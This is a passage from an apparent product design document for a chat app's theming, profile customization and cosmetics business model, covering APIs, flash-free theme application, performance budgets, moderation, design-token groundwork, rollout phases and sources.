| GET | `/users/:username` | existing; includes resolved profile customization (asset URLs, render params) |
| PATCH | `/users/@me/profile` | colours, background, frame, nameplate, name style, effect, featured badges |
| PUT | `/users/@me/profile/showcases` | ordered list, validated per kind |
| GET | `/users/@me/inventory` | owned items |
| GET | `/shop/items?collection=` · POST `/shop/checkout` | real-money prices; checkout via provider |
| POST | `/media/uploads` | existing; gains `purpose: theme \| profile_background \| …`, which sets processing (pre-blurred variants, luminance percentiles, flash analysis, transcode limits) and access (private signed URLs until published) |

Gateway: `READY` already carries `settings`; it gains the resolved active theme (`{ versionId, document, compiledHash }`) so the shell can apply it before rendering content. `USER_SETTINGS_UPDATE` carries appearance changes across devices. New: `COMMUNITY_APPEARANCE_UPDATE` (to members), `THEME_VERSION_PUBLISHED` (to installers who follow updates, so they refetch).

### 4.8 Applying a theme on the web without a flash

Today `src/app/layout.tsx` runs a small blocking boot script that reads `realm:theme` (night/day) and `realm:motion` from `localStorage` and sets `data-theme`/`data-motion` on `<html>` before first paint. Extend it, don't replace it:

1. **Cache the compiled theme on the device.** Whenever the active theme changes (or on sign-in), store `realm:theme:v1 = { hash, colorScheme, vars, background: { placeholder, image } }`. It's produced by the compiler from validated data, so it contains only numbers, colours and Realm media URLs.
2. **Boot script applies it synchronously:** `for (k in vars) html.style.setProperty(k, vars[k])`, set `data-theme` to the variant's edition, `data-user-theme=<hash>`, `style.colorScheme`, and the placeholder background colour. Setting properties through the CSSOM avoids injecting a `<style>` element and keeps working if `style-src` later moves to nonces. A `<link rel="preload" as="image">` for the background variant starts the download early.
3. **Background fades in** over the placeholder when loaded (instant under reduced motion). The placeholder is the image's average colour or gradient from the media pipeline, so the first frame already looks like the theme, not like the default sky.
4. **New device, no cache yet:** the signed-in shell already waits for the session bootstrap (`READY` / `/users/@me`) before rendering content; the theme ships in that payload and is applied in the same tick, then cached. The landing and auth pages are never themed, so there's nothing to flash there.
5. **Sync:** the `storage` event updates other tabs; `USER_SETTINGS_UPDATE` updates other devices. Sign-out clears the cache.
6. **Per-Space themes** compile to the same `vars` map, applied on the Space region's root element instead of `<html>`. Custom properties inherit, so only that subtree changes. Entering and leaving a Space crossfades the background (respecting reduced motion). The global chrome keeps the user's theme.
7. **Editions:** a theme with both variants follows the night/day switch (and the eclipse transition plays between the theme's own variants); a theme with one variant shows "This theme is night-only" by the switch.

### 4.9 Per-Space and profile precedence

- Inside a Space region: Space theme if one is set and the viewer has "Show Space themes" on; else the viewer's theme.
- Outside: the viewer's theme, else the built-in edition.
- Profile cards: the profile owner's colours and background inside the card's box only; the rest of the page is the viewer's.
- Always last: the viewer's accessibility overrides. Never applied: anything to trust UI.

### 4.10 Native apps (Phase 4)

- **Expo:** the `ThemeDocument` arrives in `READY`; `compileTheme(doc, { platform: "native" })` returns a theme object consumed by a `ThemeProvider` and React Native styles. Colours are emitted as sRGB hex (P3 where supported) from the same OKLCH source, using the existing `toHex`. Layer 3a parts map to component props where an equivalent exists.
- **Electron:** the web app, unchanged, so it gets everything the web gets.
- **iOS App Store / Google Play:** Realm+ and Shop purchases inside the mobile apps fall under the stores' payment rules. In the US, the April 30, 2025 *Epic v. Apple* order lets apps link to web checkout without Apple's commission; the Ninth Circuit largely upheld it on 2025-12-11 while leaving room for some fee ([MacRumors](https://www.macrumors.com/2025/04/30/apple-app-store-anti-steering-injunction-violation/); [Justia](https://law.justia.com/cases/federal/appellate-courts/ca9/25-2935/25-2935-2025-12-11.html)). Check the rules per country at the time; entitlements live on Realm's backend regardless of where the purchase happened.

### 4.11 Performance budgets

Measured on a production build on the reference machine (AMD Radeon 610M, 2560×1600 at 175%), as for the landing.

| Feature | Budget |
|---|---|
| Compiled web theme | ≤ 8 KB; applying it is a handful of `setProperty` calls |
| Background image | Server variants at 640 / 1280 / 2560 px long edge, AVIF + WebP, ≤ 600 KB at 2560; picked by `srcset` |
| "Frosted glass" | A **pre-blurred** variant of the background (blur buckets rendered by the media pipeline) behind translucent surfaces. No live `backdrop-filter` on large or fixed elements; it's the costliest effect on integrated GPUs and in iOS Safari scrolling. |
| Live blur | Only on small transient overlays (menus, popovers), radius ≤ 16 px, off under reduced transparency |
| Background video | ≤ 1080p (≤ 720p on mobile), ≤ 30 fps, ≤ 2.5 Mbps, ≤ 20 s loop, no audio track; one video at a time; plays only when visible and the window is focused; poster frame otherwise |
| Animated frames, effects, avatars | ≤ 512 KB, ≤ 4 s loops; animate on hover/open in lists; static first frame elsewhere |
| Ambient motion | Uses the existing ambient-motion system and off-screen pausing; nothing animates on a hidden layer |
| Governor | If frame time stays over budget for a few seconds (measured client-side), step down: video → poster, live blur → none, ambient motion → subtle; tell the user once |

A "worst-case theme" (every Realm+ feature maxed) is part of the performance test suite, so a regression shows up before users see it.

### 4.12 Moderation and review

| What | Automated | Human |
|---|---|---|
| Any upload (theme background, profile media) | Media pipeline: EXIF strip, hash matching against known abuse imagery, NSFW classifier, flash analysis, size/duration limits | On report |
| Private theme | Schema, contrast report (warning), media checks | No |
| Unlisted share link | Schema, contrast (must pass), media checks, text moderation of name/description | On report |
| Gallery (public) theme | All of the above | Review before listing (LINE-style; hours to days), fast lane for trusted creators |
| Space theme | Same as unlisted | On report; routed to platform T&S, not the Space's own mods (the owner set it) |
| Paid items (Realm-made or creator) | All of the above | Always reviewed, including rights to the art |

- **Copyright.** Personal themes can use personal images. Anything listed publicly needs an attestation that the author has rights to the assets; anything sold needs proof or original work. The BD top-five shows how much fan art people will use; the gallery will need a DMCA process from day one.
- **Takedown:** removing a version reverts its installers to their previous theme (or default) with a notice; forks of a removed theme lose the removed assets.
- **Impersonation:** a Space theme that copies another Space's name and art, or Realm's own look plus fake system UI, is removable on report; the structural limits in §3.5 make the dangerous version impossible anyway.

### 4.13 What the design-token package should do now

Most of this is cheap during the redesign and expensive after it.

1. **Adopt the public role names** in §4.2.1 for the redesign's token set. Keep the internal metaphor names out of anything a theme or a component reads.
2. **Three tiers:** primitives (OKLCH ramps) → semantic roles (the public vocabulary) → component tokens (internal, derived). Themes write roles; components read roles or component tokens, never primitives.
3. **No literal colours in app components.** `globals.css` already resets Tailwind's palette (`--color-*: initial`); add a CI check that fails on colour literals and arbitrary colour classes (e.g. `bg-[oklch(…)]`) under `src/features/app`, `src/features/settings`, `src/app/(app)` and shared components. Today the app shell is close: one literal highlight in `components/button.tsx` and the `surface` utility's hard-coded mix percentages; the landing's many literals are fine because the landing isn't themeable.
4. **Make translucency, edge light, blur, fonts, text scale, radius and density tokens.** `--surface-edge` is currently defined in `globals.css`, not in the token package; the `surface` utility hard-codes 94%/85%/18%/60%. Move them into tokens.
5. **Express night and day as `ThemeDocument`s** and generate `tokens.css` from them. If the built-in editions can't be expressed in the format, the format is wrong.
6. **Move `color.ts` (OKLCH→sRGB, contrast, gamut) and the checks in `tokens.test.ts` into a shared package** (e.g. `shared/theme`, with `compileTheme` and `checkTheme`) so the API runs the same checks. The `ThemeDocument` schema goes in `shared/contracts`.
7. **Add a `--r-sys-*` token set** for trust UI now, and use it in the E2EE labels, report button and security screens as they're built. A `[data-trust]` rule resets themeable custom properties inside them.
8. **Add `data-part` hooks** to the stable regions as they're built (`app.dock`, `app.header`, `space.header`, `space.rooms`, `chat.message`, `chat.bubble`, `chat.composer`, `feed.card`, `profile.card`, `panel.here-now`, …) and a registry file listing them. Cheap now, and they double as end-to-end test selectors.
9. **Snapshot the public token list** in a test, so a rename that would break themes fails CI and needs a deliberate migration.
10. **Export to the DTCG 2025.10 format** as a by-product, for Figma and tooling.
11. **Reconcile `user_settings.theme`** (`system|dark|light` in DATA-MODEL.md) with the web's `night|day` before the settings API ships.

---

## 5. Business model notes

### 5.1 How others make money from cosmetics

| Platform | Model | Price points | Notes |
|---|---|---|---|
| Discord | Subscription (Nitro $9.99/mo or $99.99/yr; Nitro Basic $2.99/mo) gates app themes, custom themes, profile themes, display name styles, animated avatars; **Shop** sells permanent items with a Nitro discount; **Boosts** buy per-server perks; **Orbs** earned from sponsored Quests | Shop items $5.99–$12.99 (2024) | Breakdown of revenue isn't public: Discord filed a *confidential* S-1 in January 2026; published per-product figures are third-party estimates. |
| Steam | Points earned from spending (100 per $1) buy cosmetics; trading cards and badges via the Community Market feed levels and showcases | Items 1,000–3,000 points; profile bundles up to 10,000 | Workshop creators get 25% of item sales. |
| LINE | Creators sell app themes and stickers in a reviewed market | ¥360–¥600 per theme | Creator gets 35% of gross. |
| Telegram | Themes free; monetization elsewhere | — | Themes as a growth loop (links). |
| Twitch | Turbo/Prime unlock chat colour; Channel Points are free loyalty currency | — | Viewer-side readability fixes. |

### 5.2 What users accept and what they resent

**Accepted:** cosmetics that are optional and don't affect what anyone can do; items you keep ("yours to keep"); a subscription that bundles a discount and a few included items; earning some items through events or achievements; paying creators you like.

**Resented:**

- Paywalling something that used to be free, or that mods give away (Discord moved more dark themes into the free tier in its March 2025 refresh).
- Prices that look like a whole game for one avatar ring (the 2024 How-To Geek complaint).
- Pressure: limited-time FOMO, countdowns, upsells inside core flows (in the composer, in settings).
- Randomized paid rewards (loot boxes).
- Currency you buy that obscures real prices, and currency earned by watching ads (coverage of Orbs framed them as paying users to click ads: [Harvard tagteam/ Ars headline](https://tagteam.harvard.edu/hub_feeds/3382/feed_items/13859187)).
- Items that silently disappear when a subscription ends.
- **Paying for accessibility.** Any accessibility feature behind a paywall would be both wrong and a reputational problem; it also undercuts PRODUCT.md's WCAG 2.2 AA commitment.

Pay-to-win doesn't apply to cosmetics, but **pay-to-be-legible** would: e.g. letting paid users' names be louder than everyone else's in chat. Name styles stay within the viewer's readability clamp, and nothing paid changes ranking or visibility.

### 5.3 Proposed packaging for Realm

| Tier | Includes |
|---|---|
| **Free** | All built-in editions and accessibility presets (high contrast, low saturation, OLED black, larger text, reduced motion and transparency, dyslexia-friendly reading fonts). Full Layer 1 theming: every colour role, static picture backgrounds with dim/blur, translucency, catalogue reading and display fonts, radius, density. Share links, import/export, installing free gallery themes. Profiles: static avatar and banner, profile colours, 3 showcases, earned badges. Space owners: Layer 1 Space themes with a static background. |
| **Realm+** (subscription) | Animated/video backgrounds (app, profile, Space perk), animated avatar and banner, extended display fonts and name styles, 6 showcases, some included cosmetics (labelled as included while subscribed), Shop discount, more saved themes, gallery extras. |
| **Shop** (one-off, real-money prices) | Avatar frames, nameplates, profile effects, mini-profile and profile backgrounds, premium themes. Permanent. |
| **Earned** | Badges, event and anniversary items. No ad-for-currency at launch. |
| **Creators** (later) | Sell themes and items; revenue share; review; payouts. |

This is deliberately more generous than Discord on the free side: the BetterDiscord-style freedom (pictures, transparency, colours, fonts) is the reason to come; money comes from motion, media and collectibles.

### 5.4 Rules

1. Accessibility features and presets are free, forever. Written into this doc so it survives future pricing debates.
2. Show prices in real money. If a currency ever exists, follow the EU consumer authorities' *Key principles on in-game virtual currencies* (2025-03-21): real-money prices shown, no forced currency bundles, withdrawal rights respected, extra care for minors ([European Commission](https://commission.europa.eu/document/download/8af13e88-6540-436c-b137-9853e7fe866a_en?filename=Key+principles+on+in-game+virtual+currencies.pdf)). Simplest: no purchasable currency.
3. No randomized paid items.
4. Purchases are permanent; subscription-included items are labelled as such before anyone relies on them.
5. Refund window and parental controls for under-18 accounts (sign-up has an age gate).
6. **Creator revenue share:** precedents range from 25% (Steam Workshop) to 35% of gross (LINE). A share closer to half of net, after payment and store fees, would be competitive; decide once costs (review, payments, tax/KYC, chargebacks) are known.

---

## 6. Phased rollout

Theming is "later, at the end" by the owner's call. The phases are relative to the product roadmap ([ROADMAP.md](ROADMAP.md)).

| Phase | When | Scope |
|---|---|---|
| **T0: groundwork** | Now, inside the redesign and Phase 1 | §4.13: role names, no literals, tokens for translucency/fonts, editions as ThemeDocuments, shared checker, `--r-sys-*`, `data-part` hooks, settings field reconciled. No user-facing theming. |
| **T1: presets** | With or after Phase 2 | Accessibility presets and a few more built-in themes (OLED, low saturation, high contrast); text scale and density; account sync of edition. All free. |
| **T2: custom token themes** | After public launch (Phase 3) | Editor (seeds + advanced), static picture backgrounds via the media pipeline, contrast enforcement, share links and embeds, import/export, private and unlisted themes, flash-free application. |
| **T3: Realm+ and profiles** | With the first paid offering | Realm+ (video/animated backgrounds, fonts, name styles), Shop with Realm-made items, Steam-style profiles (backgrounds, frames, nameplates, effects, badges, showcases), Space themes, public gallery with review. Native (Expo) support follows Phase 4. |
| **T4: power users and creators** | When moderation and payments are proven | Layer 3a typed part overrides; creator marketplace with revenue share. |
| **T5: maybe never** | Only on clear demand | Local-only raw CSS on web/desktop under §4.4's conditions. |

---

## 7. Decisions (proposed)

| # | Decision |
|---|---|
| D1 | The core of theming is typed token documents (Layer 1). No arbitrary CSS in v1. |
| D2 | Themes are data. One shared compiler is the only producer of theme CSS and native styles; the API validates every document with the shared schema and checks. |
| D3 | All theme and profile media comes through Realm's media pipeline by ID. No outside URLs, anywhere. Theme asset fetches produce no owner-visible signal. |
| D4 | Anything other people see (Space themes, profiles, gallery and shared themes) is structured only, passes WCAG 2.2 AA contrast, is moderated, and can be switched off by the viewer. Raw CSS, if it ever exists, is self-only. |
| D5 | Trust UI (§3.5) is un-themeable: system tokens, `data-trust` containers, no hooks. Space themes restyle only the Space region. |
| D6 | Accessibility features and presets are free forever; core theming (colours, static pictures, translucency, sharing) is free. |
| D7 | Realm+ and the Shop sell motion, media and collectibles, never legibility, ranking or visibility. Prices in real money; no paid randomness. |
| D8 | Public token names, the theme schema version and `data-part` names are a versioned public API with deprecations. Hashed class names are not API. |
| D9 | Theme versions are immutable; installers follow updates by default, each update re-checked (and reviewed for the gallery); users can pin. |
| D10 | Profiles follow Steam's model: items and structured showcases; no profile HTML/CSS. No levels at launch. |
| D11 | The built-in night and day editions are expressed as ThemeDocuments and pass the same checks as user themes. |
| D12 | The landing page and auth screens are not themeable. |

---

## 8. Open questions

1. **Personal contrast floor.** Should someone be allowed a below-AA theme for themselves (with a warning), or is AA mandatory everywhere? This draft says "allowed down to 3:1, never shareable".
2. **Space themes default.** On by default for members (Telegram's chat themes are visible to both sides), or opt-in?
3. **Who pays for Space perks** like video backgrounds: the owner's Realm+, or members collectively (Discord's boosts)?
4. **Uploaded fonts.** Ever? Licensing, OTS sanitization on every platform, glyph-spoofing review. Current answer: grow the curated catalogue instead.
5. **Device-only backgrounds.** Worth offering for privacy (a photo of your partner never leaves the device), at the cost of no sync?
6. **Earned points.** Steam-style points for activity invite farming; for spending, they reward whales. Is there an earning loop that isn't one of those (events, contribution, anniversaries)?
7. **Levels and showcase slots.** Tie extra slots to Realm+ only, to tenure, or to nothing?
8. **Layer 3a scope.** Which parts and which properties in the first release, and how much of it maps to Expo?
9. **Raw CSS.** What demand signal would justify T5, and is "local-only" enough given social-engineering ("paste this CSS to get free Realm+")?
10. **Theme sync.** Account-wide by default with a per-device override, or per-device by default?
11. **Readable colours in chat.** Clamp other people's name colours always, or only when the viewer enables it?
12. **Mobile data and battery.** Should animated backgrounds and others' profile effects default to off on cellular or low-power mode?
13. **Review capacity.** How many gallery submissions a day can T&S handle, and what's the trusted-creator criterion?
14. **Gallery copyright.** Allow fan art in free public themes with a takedown process (BD's de facto model), or originals only?

---

## 9. Sources

All accessed 2026-10-02 unless noted.

**Discord, BetterDiscord, Vencord**
- BetterDiscord docs: [Theme Structure](https://docs.betterdiscord.app/themes/introduction/structure) · [Creating A Theme](https://docs.betterdiscord.app/themes/tutorials/creating) · [Guidelines](https://docs.betterdiscord.app/themes/publishing/guidelines) · [CSS Variables](https://docs.betterdiscord.app/discord/variables)
- [betterdiscord.app/themes](https://betterdiscord.app/themes) · [ClearVision page](https://betterdiscord.app/themes/ClearVision) · [ClearVision_v6.theme.css](https://github.com/ClearVision/ClearVision-v6/blob/master/ClearVision_v6.theme.css) · [Frosted Glass editor (bdeditor.dev)](https://bdeditor.dev/theme/frostedglass)
- [dracula/betterdiscord#6 (normalized classes)](https://github.com/dracula/betterdiscord/issues/6) · [Metro420yt/class-update](https://github.com/Metro420yt/class-update) · [rose-pine/discord#54](https://github.com/rose-pine/discord/issues/54)
- [Discord Client Modding Wiki: BetterDiscord](https://wiki.vencord.dev/article/BetterDiscord) · [Vencord](https://wiki.vencord.dev/article/Vencord) · [yiruzu/vencord-snippets](https://github.com/yiruzu/vencord-snippets) · [MiniDiscordThemes/Snippets](https://github.com/MiniDiscordThemes/Snippets)
- [Discord Terms of Service (effective 2025-09-29)](https://discord.com/terms) · [Discord on X, 2019](https://x.com/discord/status/1167708607280046080)
- Discord blog: [Themes in Nitro (updated 2026-02-19)](https://discord.com/blog/bring-your-vibe-to-discord-with-new-themes-in-nitro) · [Shop open to all (2023-11-28)](https://discord.com/blog/complete-your-look-in-the-shop-now-open-to-all) · [Nameplates (2025-04-22)](https://discord.com/blog/nameplates-land-in-the-shop) · [Accessibility updates (2022-07-07)](https://discord.com/blog/improving-app-accessibility-a11y-updates)
- [Discord custom themes on X (2025-09-04)](https://x.com/discord/status/1963695484587196735) · [AlternativeTo (2025-09-05)](https://alternativeto.net/news/2025/9/discord-introduces-custom-theme-support) · [Display Name Styles on X (2025-10)](https://x.com/discord/status/1983224573752397900) · [Enhanced Role Styles](https://support.discord.com/hc/en-us/articles/31444213087255-Enhanced-Role-Styles)
- [Discord developer docs: User](https://docs.discord.com/developers/resources/user)
- [Android Headlines (2023-03)](https://www.androidheadlines.com/2023/03/discord-desktop-app-gets-colorful-themes.html) · [TechCrunch (2023-11-29)](https://techcrunch.com/2023/11/29/discord-shop-avatars-profile-decorations/) · [How-To Geek (2024-07-31)](https://www.howtogeek.com/discord-profile-customization-shop-expensive/) · [Engadget, visual refresh (2025-03)](https://www.engadget.com/gaming/pc/discords-redesigned-pc-app-has-multiple-dark-modes-a-new-overlay-and-more-160019822.html) · [Engadget, Orbs (2025-05-28)](https://www.engadget.com/gaming/discord-launches-a-virtual-currency-162136575.html) · [Profile themes overview](https://medium.com/netcord/custom-profile-themes-are-coming-to-discord-711340627d19)

**Steam, Tumblr, MySpace, Reddit**
- [SlashGear: Points Shop (2020-06-25)](https://www.slashgear.com/steam-summer-sale-2020-is-here-with-a-new-points-shop-in-tow-25626375/) · [Steam level/customization guide](https://steamlevelforge.com/en/blog/steam-profile-customization) · [Profile themes guide](https://steamcommunity.com/sharedfiles/filedetails/?id=2993362577) · [Points prices discussion](https://steamcommunity.com/discussions/forum/12/4845399912177329580/) · [Workshop revenue sharing](https://www.gamedeveloper.com/business/steam-workshop-creators-can-now-share-revenues-with-the-community)
- [Tumblr: custom HTML themes](https://www.tumblr.com/docs/en/custom_themes) · [glenthemes on JavaScript (2022)](https://www.tumblr.com/glenthemes/683796810867900416/tumblr-javascript)
- [Mike Industries (2006-04-18)](https://mikeindustries.com/blog/archive/2006/04/hacking-myspace-layouts) · [Samy worm technical explanation](https://sa.my/myspace/tech.html) · [eWeek: QuickTime phishing worm](https://www.eweek.com/security/phishers-attack-myspace-with-quicktime-exploit-worm/) · [Virus Bulletin (2006-12)](https://www.virusbulletin.com/blog/2006/12/myspace-hit-worm-adware-and-phishing) · [Criticism of Myspace](https://en.wikipedia.org/wiki/Criticism_of_Myspace) · [SpaceHey privacy update (2021-11-26)](https://blog.spacehey.com/entry?id=144336)
- [Player.One (2017-04-23)](https://www.player.one/reddit-removes-custom-community-styles-moderators-are-pissed-594356) · [The Next Web (2017-04-25)](https://thenextweb.com/news/reddit-changing-redditors-arent-happy) · [reddit-cssfilter](https://pypi.org/project/reddit-cssfilter)

**Obsidian, VS Code, Telegram, Spotify, Twitch, Mastodon, Misskey, others**
- [Obsidian: Build a theme](https://docs.obsidian.md/Themes/App+themes/Build+a+theme) · [Theme guidelines](https://docs.obsidian.md/Themes/App+themes/Theme+guidelines) · [CSS snippets](https://obsidian.md/help/snippets)
- [VS Code: Color Theme](https://code.visualstudio.com/api/extension-guides/color-theme) · [Theme Color reference](https://code.visualstudio.com/api/references/theme-color) · [Custom CSS and JS Loader](https://marketplace.visualstudio.com/items?itemName=be5invis.vscode-custom-css)
- [Telegram: Android themes (2017-02-20)](https://telegram.org/blog/android-themes) · [Custom Cloud Themes](https://core.telegram.org/themes) · [XDA: 5.11 (2019-09-05)](https://www.xda-developers.com/telegram-5-11-scheduled-messages-custom-cloud-themes/) · [Chat themes (2021-09-19)](https://telegram.org/blog/chat-themes-interactive-emoji-read-receipts?setln=en) · [.attheme editor](https://github.com/SnejUgal/attheme-editor) · [universal-themes](https://github.com/deyoungjohn/universal-themes)
- [Spicetify: Themes](https://spicetify.app/docs/development/themes) · [Spotify Terms of Use](https://spotify.com/au/legal/end-user-agreement)
- [Twitch: channel page setup](https://link.twitch.tv/ChannelPageSetup) · [Readable Colors explainer](https://wellcontent.io/improve-accessibility-user-experience-twitch) · [Channel Points (2019-12-16)](https://blog.twitch.tv/en/2019/12/16/channel-points-an-easy-way-to-engage-with-your-audience/)
- [fedi.tips: Mastodon custom CSS](https://fedi.tips/customising-your-mastodon-servers-appearance/) · [Misskey Hub: Theme](https://misskey-hub.net/en/docs/for-users/features/theme/) · [Misskey advisory GHSA-3p2w-xmv5-jm95 (2025-05-05)](https://github.com/misskey-dev/misskey/security/advisories/GHSA-3p2w-xmv5-jm95)
- [How-To Geek: Slack themes](https://www.howtogeek.com/272373/how-to-customize-slacks-appearance-with-themes/) · [Bugzilla 1541233 (userChrome.css opt-in)](https://bugzilla.mozilla.org/show_bug.cgi?id=1541233) · [MDN: theme manifest key](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/manifest.json/theme) · [itch.io CSS guide](https://itch.io/docs/creators/css-guide) · [CSS-Tricks: Cohost (2025-04-24)](https://css-tricks.com/the-lost-css-tricks-of-cohost-org/) · [LINE Creators Themes (2016)](https://www.linecorp.com/en/pr/news/en/2016/1244) · [LINE theme guidelines](https://creator.line.me/en/guideline/theme/)
- [M3: Science of color](https://m3.material.io/blog/science-of-color-design/) · [material-color-utilities](https://github.com/material-foundation/material-color-utilities) · [W3C DTCG 2025.10 (2025-10-28)](https://www.w3.org/community/design-tokens/2025/10/28/design-tokens-specification-reaches-first-stable-version/)

**Security, accessibility, platform**
- [Bram.us: CSS keylogger (2018-02-21)](https://www.bram.us/2018/02/21/css-keylogger-and-why-you-shouldnt-worry-about-it/) · [CSS-Tricks: CSS keylogger](https://css-tricks.com/css-keylogger/) · [d0nut: Sequential Import Chaining (2019-04-10)](https://github.com/d0nutptr/sic) · [PortSwigger: Blind CSS exfiltration (2023-12-05)](https://portswigger.net/research/blind-css-exfiltration) · [PortSwigger: CSS, the bomb inside your inbox (2026-08-06)](https://portswigger.net/research/css-the-bomb-inside-your-inbox) · [Masato Kinugawa: unicode-range (2015-10)](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html) · [Scriptless Attacks (CCS 2012)](https://www.nds.rub.de/media/emma/veroeffentlichungen/2012/08/16/scriptlessAttacks-ccs2012.pdf) · [Styled to Steal (CCS 2025)](https://dl.acm.org/doi/abs/10.1145/3719027.3765189) · [Jorian Woltjer: CSS injection](https://book.jorianwoltjer.com/web/client-side/css-injection)
- [Chrome: CSS if()](https://developer.chrome.com/blog/if-article) · [Chrome: prefers-reduced-transparency](https://developer.chrome.com/blog/css-prefers-reduced-transparency) · [MDN: @layer](https://developer.mozilla.org/en-US/docs/Web/CSS/@layer) · [MDN: CSP style-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/style-src) · [MDN: ::part()](https://developer.mozilla.org/en-US/docs/Web/CSS/Reference/Selectors/::part) · [CSS Custom Properties Level 1](https://www.w3.org/TR/css-variables-1/)
- [WCAG 2.2: Pause, Stop, Hide](https://www.w3.org/WAI/WCAG22/Understanding/pause-stop-hide.html) · [Contrast (Minimum)](https://www.w3.org/WAI/WCAG22/Understanding/contrast-minimum.html) · [Non-text Contrast](https://www.w3.org/WAI/WCAG22/Understanding/non-text-contrast.html) · [Three Flashes](https://www.w3.org/WAI/WCAG22/Understanding/three-flashes-or-below-threshold.html)
- [EU CPC: Key principles on in-game virtual currencies (2025-03-21)](https://commission.europa.eu/document/download/8af13e88-6540-436c-b137-9853e7fe866a_en?filename=Key+principles+on+in-game+virtual+currencies.pdf) · [MacRumors: Epic v. Apple (2025-04-30)](https://www.macrumors.com/2025/04/30/apple-app-store-anti-steering-injunction-violation/) · [Ninth Circuit opinion (2025-12-11)](https://law.justia.com/cases/federal/appellate-courts/ca9/25-2935/25-2935-2025-12-11.html)

**Caveats on sources.** Discord's support center, Vencord's FAQ and some X posts refused automated reads; claims from them are marked where used. Discord revenue splits circulating online are estimates (the S-1 is confidential). Steam points prices come from community summaries, not Valve.
